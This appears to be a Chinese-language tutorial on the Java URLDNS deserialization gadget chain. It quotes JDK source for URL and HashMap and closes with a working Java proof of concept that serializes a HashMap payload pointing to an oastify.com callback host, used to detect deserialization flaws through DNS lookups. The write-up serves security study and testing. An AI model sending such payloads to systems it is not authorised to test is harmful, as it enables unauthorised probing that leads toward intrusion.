

前言
URLDNS链作为Java反序列化最基础的链子 具有以下特点：
- 不限制jdk版本，使用Java内置类，对第三方依赖没有要求
- 目标无回显，可以通过DNS请求来验证是否存在反序列化漏洞
- URLDNS利用链，只能发起DNS请求，并不能进行其他利用
Gadget
一般寻找Java反序列化利用链先从readObject()方法入手 不过直接来看URL类的readObject()方法并没有可以直接利用的点
不过这里发现了hashCode()方法 其中getHostAddress方法可以发起DNS请求
URL -> hashCode()
/**
* Creates an integer suitable for hash table indexing.<p>
*
* The hash code is based upon all the URL components relevant for URL
* comparison. As such, this operation is a blocking operation.<p>
*
* @return a hash code for this {@code URL}.
*/
public synchronized int hashCode() {
if (hashCode != -1)
return hashCode;
hashCode = handler.hashCode(this);
return hashCode;
}
handler.hashCode(this)↓↓↓
/**
* Provides the default hash calculation. May be overidden by handlers for
* other protocols that have different requirements for hashCode
* calculation.
* @param u a URL object
* @return an {@code int} suitable for hash table indexing
* @since 1.3
*/
protected int hashCode(URL u) {
int h = 0;
// Generate the protocol part.
String protocol = u.getProtocol();
if (protocol != null)
h += protocol.hashCode();
// Generate the host part.
InetAddress addr = getHostAddress(u);
if (addr != null) {
h += addr.hashCode();
} else {
String host = u.getHost();
if (host != null)
h += host.toLowerCase().hashCode();
}
// Generate the file part.
String file = u.getFile();
if (file != null)
h += file.hashCode();
// Generate the port part.
if (u.getPort() == -1)
h += getDefaultPort();
else
h += u.getPort();
// Generate the ref part.
String ref = u.getRef();
if (ref != null)
h += ref.hashCode();
return h;
}所以可以借助HashMap类，在其readObject()方法中会调用putVal()方法 接着调用hash()方法 进而调用 hashCode()
HashMap -> readObject()
/**
* Reconstitute the {@code HashMap} instance from a stream (i.e.,
* deserialize it).
*/
private void readObject(java.io.ObjectInputStream s)
throws IOException, ClassNotFoundException {
// Read in the threshold (ignored), loadfactor, and any hidden stuff
s.defaultReadObject();
reinitialize();
if (loadFactor <= 0 || Float.isNaN(loadFactor))
throw new InvalidObjectException("Illegal load factor: " +
loadFactor);
s.readInt(); // Read and ignore number of buckets
int mappings = s.readInt(); // Read number of mappings (size)
if (mappings < 0)
throw new InvalidObjectException("Illegal mappings count: " +
mappings);
else if (mappings > 0) { // (if zero, use defaults)
// Size the table using given load factor only if within
// range of 0.25...4.0
float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
float fc = (float)mappings / lf + 1.0f;
int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
DEFAULT_INITIAL_CAPACITY :
(fc >= MAXIMUM_CAPACITY) ?
MAXIMUM_CAPACITY :
tableSizeFor((int)fc));
float ft = (float)cap * lf;
threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
(int)ft : Integer.MAX_VALUE);
@SuppressWarnings({"rawtypes","unchecked"})
Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
table = tab;
// Read the keys and values, and put the mappings in the HashMap
for (int i = 0; i < mappings; i++) {
@SuppressWarnings("unchecked")
K key = (K) s.readObject();
@SuppressWarnings("unchecked")
V value = (V) s.readObject();
putVal(hash(key), key, value, false, false);
}
}
}HashMap -> hash()
/**
* Computes key.hashCode() and spreads (XORs) higher bits of hash
* to lower. Because the table uses power-of-two masking, sets of
* hashes that vary only in bits above the current mask will
* always collide. (Among known examples are sets of Float keys
* holding consecutive whole numbers in small tables.) So we
* apply a transform that spreads the impact of higher bits
* downward. There is a tradeoff between speed, utility, and
* quality of bit-spreading. Because many common sets of hashes
* are already reasonably distributed (so don't benefit from
* spreading), and because we use trees to handle large sets of
* collisions in bins, we just XOR some shifted bits in the
* cheapest possible way to reduce systematic lossage, as well as
* to incorporate impact of the highest bits that would otherwise
* never be used in index calculations because of table bounds.
*/
static final int hash(Object key) {
int h;
return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}所以完整Gadget如下：
* Gadget Chain:
* HashMap.readObject()
* HashMap.putVal()
* HashMap.hash()
* URL.hashCode()URLDNS链利用
package com.hsad.serializable;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;
public class SerializableURLDNS {
public static void serializable(Object obj) throws IOException {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static void main(String[] args) throws Exception {
HashMap<URL, Integer> hashmap = new HashMap<>();
URL url = new URL("http://gyi6j6nshd354pj1j4w7h56cq3wukl8a.oastify.com");
//**以下的操作是为了不在put中触发URLDNS查询，如果不这么写就会触发两次
//1. 设置url的hashCode字段为12222（随意的值）
Class c = url.getClass();
Field hashCodefield = c.getDeclaredField("hashCode");
hashCodefield.setAccessible(true);
hashCodefield.set(url, 12222);
hashmap.put(url, 1);
//修改url的hashCode字段为-1，为了触发DNS查询
hashCodefield.set(url, -1);
serializable(hashmap);
}
}
